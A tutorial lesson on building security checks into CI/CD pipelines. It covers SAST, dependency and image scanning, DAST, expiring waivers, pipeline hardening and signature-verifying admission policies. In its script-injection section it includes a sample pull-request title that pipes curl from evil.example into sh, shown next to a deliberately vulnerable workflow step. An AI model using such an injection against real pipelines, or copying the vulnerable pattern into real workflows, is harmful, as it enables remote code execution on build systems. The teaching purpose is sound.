

# Security scanning and supply-chain checks

> **Before this lesson:** read [Static analysis, quality gates and the artifact repository](#/lesson/cicd/static-analysis-artifacts) and [Environments, configuration and secrets](#/lesson/cicd/config-and-secrets).

## In plain words

An airport does not rely on one guard at the aircraft door. There is a check at the entrance, a scanner for bags, a passport desk and a final check at the gate. Each catches things the others miss, and most problems are stopped long before the runway.

Software security works the same way. A **vulnerability** is a weakness that an attacker could use. This lesson places a different automatic security check at each stage of the pipeline, so that weaknesses are found minutes after they are written — a habit known as **shifting left**, because the checks move towards the start (the left) of the timeline.

The checks look in different places: the code you wrote, the passwords you may have left in it, the outside code you use (your **supply chain**), the packaged program, and the running system.

Why this matters for a job: security is now part of every engineer's work. "How do you build security into a CI/CD pipeline?" is a standard interview question, and several well-known breaches began in the pipeline itself.

## Motivation: the audit that arrives a week before launch

In the traditional model, security is a gate at the end. A specialist team reviews the finished system, runs a scanner, and returns a 120-page report days before release. The findings are real, the fixes are architectural, and the launch date does not move. Everyone signs a risk acceptance and promises to do better next time.

That model fails for the same reason late integration and late capacity testing fail: feedback arrives when it is most expensive to act on. Security is a non-functional requirement like any other — cross-cutting, easy for any change to damage, and best protected by automated checks that run on every commit. The practice of moving those checks earlier is called **shifting left**, and the cultural version of it is **DevSecOps**: security is part of the delivery team's job, supported by specialists, enforced by the pipeline.

This lesson maps the kinds of automated security check onto pipeline stages, shows how to set policy so the checks are acted on rather than ignored, and covers the security of the pipeline itself — an increasingly common target.

## What can go wrong, and which check sees it

Security problems enter a system through distinct doors. Each has a matching class of tool.

| where the flaw is | example | check | stage |
|---|---|---|---|
| Your code | SQL built by concatenation; unsafe deserialisation | **SAST** — static application security testing | commit |
| A committed credential | API key in a config file | **Secret scanning** | pre-commit, commit, push protection |
| A library you use | a vulnerable version of a JSON parser | **SCA** — software composition analysis | commit, plus continuous re-scan |
| Your container image | outdated OS packages; running as root | **Image scanning**, Dockerfile lint | commit (after build) |
| Your infrastructure code | public storage bucket; security group open to the world | **IaC scanning** / policy as code | commit, and at plan time |
| The running application | missing security headers; reflected XSS; broken access control | **DAST** — dynamic testing against a deployed instance | after acceptance |
| The deployment | unsigned image; privileged pod | **Admission control** | deploy time |
| The live system | exploitation attempts; anomalous behaviour | runtime detection, WAF, audit logs | production |



The dotted arrow matters. A vulnerability can be announced in a library you shipped six months ago, with no change on your side. Scanning only at build time misses that; artifacts already in production must be re-evaluated continuously against updated vulnerability data, which is what stored SBOMs make possible.

### SAST: reading your code for dangerous patterns

Static tools look for flows from untrusted input to sensitive operations, and for known-bad constructs. They are fast and need nothing deployed. They also produce false positives, so tune the rule set and start with high-confidence rules.

```yaml
# .semgrep/rules.yml -- a custom rule: no SQL assembled with f-strings
rules:
  - id: sql-fstring
    languages: [python]
    severity: ERROR
    message: Build SQL with bound parameters, not string formatting.
    patterns:
      - pattern: $CURSOR.execute(f"...", ...)
```

```python
# flagged
cursor.execute(f"SELECT * FROM orders WHERE customer_id = {customer_id}")
# accepted
cursor.execute("SELECT * FROM orders WHERE customer_id = %s", (customer_id,))
```

Custom rules like this are an underused strength: when a review or an incident reveals a mistake, encode it so the pipeline catches the next instance.

### SCA: the code you did not write

Most of a modern application is third-party. Composition analysis compares the exact versions in your lockfile against databases of known vulnerabilities (CVEs and advisories), and can also check licences.

```bash
pip-audit --requirement requirements.txt --strict      # Python
npm audit --audit-level=high                           # Node
trivy fs --scanners vuln,license --severity HIGH,CRITICAL --exit-code 1 .
osv-scanner scan --lockfile uv.lock
```

Two refinements separate a useful SCA set-up from a noisy one. **Fix availability**: failing a build for a vulnerability with no released fix blocks work without enabling action. **Reachability**: a vulnerable function your code never calls is a lower priority than one on a request path. Good tooling reports both.

### Image and infrastructure scanning

A container image carries an operating system's worth of packages. Scan the built image, and lint the Dockerfile and manifests for risky configuration.

```bash
trivy image --severity HIGH,CRITICAL --ignore-unfixed --exit-code 1 registry.example.com/orders@sha256:9c1e...
trivy config --exit-code 1 deploy/ infra/        # Kubernetes manifests, Terraform, Dockerfiles
```

Typical findings: container runs as root, no resource limits, `latest` tag, a writable root filesystem, a storage bucket without encryption, a firewall rule allowing `0.0.0.0/0` to a database port. The cheapest mitigation for image vulnerabilities is to ship less: a minimal or distroless base image has far fewer packages to be vulnerable.

### DAST: attacking the running application

Dynamic testing sends requests to a deployed instance and observes the responses, finding problems static tools cannot see: missing headers, misconfigured TLS, cookies without `Secure` and `HttpOnly`, injection that only appears at runtime, endpoints that answer without authentication.

```yaml
  dast:
    needs: acceptance
    runs-on: ubuntu-latest
    steps:
      - uses: zaproxy/action-baseline@v0.14.0
        with:
          target: ${{ vars.ACCEPTANCE_URL }}
          rules_file_name: .zap/rules.tsv     # which alerts fail, warn or are ignored
```

A baseline scan is passive and takes a couple of minutes — suitable for every build. Active scanning that fuzzes inputs is slower and belongs in a nightly run against a disposable environment.

DAST does not understand your business rules. "User A must not read user B's invoice" is an authorisation requirement, and the reliable check for it is an ordinary **acceptance test** written by the team:

```python
def test_customer_cannot_read_another_customers_invoice(shop):
    alice = shop.create_customer()
    bob = shop.create_customer()
    invoice = shop.place_order(alice, sku="BOOK-1").invoice

    response = shop.as_user(bob).get_invoice(invoice.id)

    assert response.status == 404          # not 403: do not even reveal that it exists
```

Broken access control is consistently among the most common serious web vulnerabilities, and scanners are weak at finding it. Tests like this one are your main defence.

## Policy: making findings actionable

A scanner that fails every build is disabled within a week. A scanner that fails none is ignored. The policy in between needs four parts.

1. **Severity thresholds.** Block on critical and high; report medium and low.
2. **Fix availability.** Block only when an upgrade or patch exists.
3. **Time-boxed exceptions.** A finding can be accepted with a recorded reason, an owner and an expiry date. When it expires, it blocks again.
4. **New versus existing.** Ratchet as in Lesson 14: existing debt gets a deadline; new findings in changed code block immediately.

```python-run
from datetime import date

SEVERITY = {"low": 1, "medium": 2, "high": 3, "critical": 4}

def evaluate(findings, waivers, today, block_at="high"):
    blocking, waived, expired, deferred = [], [], [], []
    for f in findings:
        w = waivers.get(f["id"])
        if SEVERITY[f["severity"]] < SEVERITY[block_at]:
            deferred.append(f["id"] + " (below threshold)")
        elif not f["fix_available"]:
            deferred.append(f["id"] + " (no fix released yet)")
        elif w and w["until"] >= today:
            waived.append(f"{f['id']} until {w['until']} - {w['reason']}")
        elif w:
            expired.append(f["id"])
            blocking.append(f["id"])
        else:
            blocking.append(f["id"])
    return blocking, waived, expired, deferred

findings = [
    {"id": "CVE-2026-1111", "pkg": "libxml",   "severity": "critical", "fix_available": True},
    {"id": "CVE-2026-2222", "pkg": "openssl",  "severity": "high",     "fix_available": False},
    {"id": "CVE-2025-3333", "pkg": "yaml-lib", "severity": "high",     "fix_available": True},
    {"id": "CVE-2025-4444", "pkg": "imagelib", "severity": "high",     "fix_available": True},
    {"id": "CVE-2026-5555", "pkg": "tzdata",   "severity": "low",      "fix_available": True},
]
waivers = {
    "CVE-2025-3333": {"until": date(2026, 7, 15), "reason": "parser not reachable; upgrade scheduled"},
    "CVE-2025-4444": {"until": date(2026, 5, 1),  "reason": "temporary"},
}
blocking, waived, expired, deferred = evaluate(findings, waivers, date(2026, 6, 3))
print("BLOCK   :", blocking)
print("waived  :", waived)
print("expired waivers:", expired)
print("deferred:", deferred)
print("\nbuild", "FAILS" if blocking else "passes")
```

The expired waiver is the important case: exceptions that never expire are how risk acceptance turns into permanent neglect.

> [!TIP]
> Route findings to where developers already work: annotations on the pull request diff and automated dependency-update pull requests. A separate security portal that requires a login is where findings go to be forgotten.

## Securing the pipeline itself

The pipeline holds credentials for your registry, your cloud accounts and your production clusters, and it executes code from many sources. An attacker who controls it controls everything it can deploy. Treat it as production infrastructure.

**Least-privilege tokens.** Set the default token to read-only and grant per job only what is needed.

```yaml
permissions:
  contents: read          # workflow-wide default

jobs:
  publish:
    permissions:
      contents: read
      packages: write     # only this job may push images
      id-token: write     # only this job may request an OIDC token
```

**No long-lived cloud keys.** Use OpenID Connect federation so the job exchanges a short-lived identity token for temporary cloud credentials, restricted by repository, branch and environment (Lesson 31).

**Pin what you execute.** Third-party actions, base images and tools are code running with your credentials. Pin them to immutable references — a commit SHA or a digest — and update through reviewed pull requests.

**Do not run untrusted code with secrets.** Pull requests from forks must not receive repository secrets. Be especially careful with triggers that run in the base repository's context while checking out a contributor's code.

**Avoid script injection.** Values an attacker controls — a pull-request title, a branch name, a commit message — must never be interpolated directly into a shell command.

```yaml
# vulnerable: the title is pasted into the script text before the shell runs
- run: echo "PR title is ${{ github.event.pull_request.title }}"

# safe: pass it as data through an environment variable
- run: echo "PR title is $TITLE"
  env:
    TITLE: ${{ github.event.pull_request.title }}
```

A title such as `"; curl evil.example | sh; echo "` exploits the first form.

**Protect the definition.** Require code-owner review for changes to workflow files and deployment configuration; protect environments with required reviewers; restrict which branches may deploy.

**Isolate runners.** Use ephemeral runners that are destroyed after each job. A long-lived self-hosted runner that builds untrusted pull requests can be persistently compromised.

### Verifying provenance at the door

Build-once (Lesson 10) says the artifact that was tested is the artifact that ships. Supply-chain security adds: and we can *prove* it. The commit stage signs the image and attaches a provenance attestation; the cluster's admission controller refuses anything without a valid signature from the expected pipeline identity.

```yaml
# Kyverno policy: only run images signed by our GitHub Actions workflow
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: require-signed-images
spec:
  validationFailureAction: Enforce
  rules:
    - name: verify-signature
      match:
        any:
          - resources:
              kinds: [Pod]
      verifyImages:
        - imageReferences: ["ghcr.io/example/*"]
          attestors:
            - entries:
                - keyless:
                    issuer: https://token.actions.githubusercontent.com
                    subject: https://github.com/example/*/.github/workflows/*@refs/heads/main
```

The SLSA framework describes increasing levels of this assurance — from "the build is scripted" up to "the build runs on a hardened, isolated platform and produces unforgeable provenance" — and is a useful vocabulary when discussing supply-chain maturity.

## Worked example: one vulnerability, start to finish

A critical advisory is published for a compression library.

1. **Detection (minutes).** The nightly re-scan of stored SBOMs flags four services whose production images contain the affected version. Simultaneously the dependency bot opens pull requests bumping the library in each repository.
2. **Assessment.** The advisory affects decompression of untrusted input. Two services decompress user uploads (exposed); two use the library only for internal log shipping (lower priority).
3. **Fix.** For the two exposed services the bot's pull request runs the normal pipeline — tests, scans, image build — and is merged and released the same hour. No special process is needed, because the ordinary path is fast.
4. **Verification.** The SBOM query now shows the fixed version in production for those two. The other two receive a waiver expiring in seven days, with a reason.
5. **Learning.** One exposed service had pinned the library transitively through an abandoned package; the team replaces that package and adds an SCA rule for unmaintained dependencies.

Every step relied on capabilities built earlier in this track: lockfiles, SBOMs in the artifact repository, automated update pull requests and a pipeline quick enough to be the emergency route.

## Pitfalls

- **Scanning without policy**: thousands of findings, no thresholds, no owner.
- **Permanent waivers.**
- **Scanning only at build time**, ignoring vulnerabilities disclosed after release.
- **Believing a clean scan means secure.** Tools find known patterns. Design flaws and authorisation bugs need threat modelling, review and tests.
- **Secrets in pipeline logs**, artifacts or caches.
- **Over-privileged default tokens** and long-lived cloud keys in CI secrets.
- **Unpinned third-party actions** on mutable tags.
- **Security as someone else's job**, re-creating the end-of-project audit with newer tools.

> [!WARNING]
> Run active security scans and penetration tools only against systems you own or have written permission to test, and only in environments built for it. An active scanner pointed at a shared or production system can corrupt data, trigger incident response, or breach a provider's terms of service.

> [!INTERVIEW]
> "How do you integrate security into CI/CD?" Walk the pipeline. Pre-commit and commit: secret scanning, SAST, dependency audit, IaC and Dockerfile checks. Build: image scan, SBOM, signing and provenance. After deploy to a test environment: DAST baseline and authorisation acceptance tests. Deploy: admission policy verifying signatures and safe configuration. Production: runtime detection and continuous re-scanning of SBOMs. Then cover policy (severity thresholds, fix availability, expiring waivers, block new issues) and hardening of the pipeline (least-privilege tokens, OIDC, pinned actions, no secrets for fork builds, protected environments).

## Summary

- Security is a non-functional requirement best protected by automated checks on every change, not by a late audit.
- Each class of flaw has a matching check: SAST for your code, secret scanning, SCA for dependencies, image and IaC scanning, DAST against a running instance, admission control at deploy, runtime detection in production.
- Re-scan released artifacts continuously, using stored SBOMs, because new vulnerabilities appear without any change on your side.
- A workable policy blocks on fixable high-severity findings, allows expiring documented waivers, and treats new issues more strictly than old ones.
- Authorisation rules need tests you write; scanners cannot infer business rules.
- The pipeline is a high-value target: least-privilege tokens, short-lived federated credentials, pinned dependencies, no secrets for untrusted code, and signed artifacts verified at admission.

## Glossary

- **Vulnerability** — a weakness an attacker could use.
- **Shift left** — moving checks earlier in the delivery process.
- **DevSecOps** — making security part of the delivery team's everyday work.
- **SAST** — static application security testing: reading your code for dangerous patterns.
- **DAST** — dynamic application security testing: probing a running application.
- **SCA** — software composition analysis: checking dependencies for known vulnerabilities.
- **CVE** — a publicly catalogued vulnerability with an identifier.
- **Secret scanning** — searching code and history for passwords and keys.
- **IaC scanning** — checking infrastructure definitions for insecure settings.
- **SBOM** — software bill of materials: a list of every component inside an artifact.
- **Supply chain** — everything that goes into producing your software, including other people's code and tools.
- **Waiver** — a recorded, time-limited decision to accept a finding.
- **Least privilege** — giving only the access that is needed.
- **OIDC** — a standard that lets a pipeline job prove its identity and receive short-lived credentials.
- **Admission control** — a check in a cluster that can refuse to run something.
- **Script injection** — an attack in which attacker-supplied text is executed as a command.

## Check yourself

```quiz
[
  {"q": "Which check is designed to find a known-vulnerable version of a third-party library?",
   "options": ["SAST", "DAST", "SCA (software composition analysis)", "Load testing"],
   "answer": 2,
   "explain": "Composition analysis compares resolved dependency versions with vulnerability advisories."},
  {"q": "Why must released artifacts be re-scanned continuously rather than only at build time?",
   "options": ["Images change after they are pushed", "New vulnerabilities are disclosed in components that were considered safe when the artifact was built", "Scanners are unreliable", "Registries require it"],
   "answer": 1,
   "explain": "The artifact is immutable but the vulnerability database is not. An SBOM lets you find affected artifacts when an advisory appears."},
  {"q": "Which type of flaw are automated scanners weakest at finding?",
   "options": ["Outdated OS packages", "Committed API keys", "Broken access control rules specific to the business", "Missing security headers"],
   "answer": 2,
   "explain": "A scanner cannot know that customer A must not see customer B's data. That needs explicit authorisation tests."},
  {"q": "What is the purpose of an expiry date on a vulnerability waiver?",
   "options": ["To make the build slower", "To force the accepted risk to be reviewed again rather than becoming permanent", "To hide the finding from auditors", "To delete the dependency automatically"],
   "answer": 1,
   "explain": "When the waiver lapses the finding blocks again, prompting a fresh decision or the fix."},
  {"q": "Why is `run: echo \"${{ github.event.pull_request.title }}\"` dangerous?",
   "options": ["Titles can be very long", "The expression is expanded into the script text, so a crafted title can inject shell commands", "echo is deprecated", "It leaks the repository name"],
   "answer": 1,
   "explain": "Attacker-controlled values must be passed as environment variables, not interpolated into the command."},
  {"q": "Why prefer OIDC federation over storing a cloud access key as a CI secret?",
   "options": ["It is easier to type", "Credentials are short-lived and bound to a specific repository, branch or environment, so there is no long-lived key to leak", "It makes builds faster", "It removes the need for permissions"],
   "answer": 1,
   "explain": "Short-lived, narrowly scoped credentials sharply limit the damage of a compromise."},
  {"q": "What does an admission policy that verifies image signatures enforce?",
   "options": ["That images are small", "That only artifacts produced by the trusted pipeline can run in the cluster", "That pods have enough memory", "That tests passed locally"],
   "answer": 1,
   "explain": "It closes the gap between 'we build once' and 'we can prove what is running came from that build'."},
  {"q": "A scan reports a high-severity vulnerability for which no fixed version exists yet. What is a sensible policy?",
   "options": ["Fail every build until the upstream project releases a fix", "Do not block, but track it and act when a fix or mitigation is available", "Delete the scanner", "Ignore it permanently"],
   "answer": 1,
   "explain": "Blocking without an available action only stops delivery. Track, assess exposure, mitigate if reachable, and upgrade when possible."}
]
```

> **Source:** Humble & Farley, *Continuous Delivery*, ch. 9 (non-functional requirements as first-class, testable requirements). GitHub Actions security hardening: https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions — Trivy: https://trivy.dev — SLSA: https://slsa.dev — OWASP Top 10: https://owasp.org/www-project-top-ten/ — Kyverno image verification: https://kyverno.io/docs/policy-types/cluster-policy/verify-images/
